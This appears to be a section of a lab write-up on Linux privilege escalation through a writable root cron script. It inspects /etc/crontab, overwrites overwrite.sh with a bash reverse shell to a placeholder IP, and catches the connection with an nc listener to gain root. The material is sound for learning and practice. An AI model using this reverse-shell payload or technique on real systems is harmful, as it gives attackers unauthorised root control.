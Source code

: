 ## 8. Cron Jobs - File Permissions

<br />

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at `/etc/crontab`.

<br />

We can read through the contents of this file to see the jobs running on the target machine.

```
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/14150485/172329760-0bb0d5b0-11a9-4afe-b1d2-b2674bf33638.png)

The `overwrite.sh` and `compress.sh` jobs have been scheduled to run every minute, something we can take advantage of to gain access to this machine. Let us `locate` the first file.

```
locate overwrite.sh
```

![image](https://user-images.githubusercontent.com/14150485/172330777-ed0a7342-49a4-4712-a9cd-f29480b91ce9.png)

```
la -la /usr/local/bin/overwrite.sh
```

![image](https://user-images.githubusercontent.com/14150485/172330956-081e6528-24cf-4945-8dac-54c8c8c96cb6.png)

Looks like we have write permissions on the file. Let's replace its contents per the instructions on the task with our local IP and port of choice.

```
#!/bin/bash
bash -i >& /dev/tcp/LOCAL_IP/LOCAL_PORT 0>&1
```

The next step is to set up a listener locally and wait for about a minute until the job executes on the target machine and attempts to connect to our IP using the specified port.

```
nc -lvnp LOCAL_PORT
```

After a short wait, we gain root access to the target!

![image](https://user-images.githubusercontent.com/14150485/172333307-7e70957d-60b4-4c83-bf11-5bd83a5d2c8e.png)

<br/>

### 8.1: Read and follow along with the above.

```
No answer needed
```
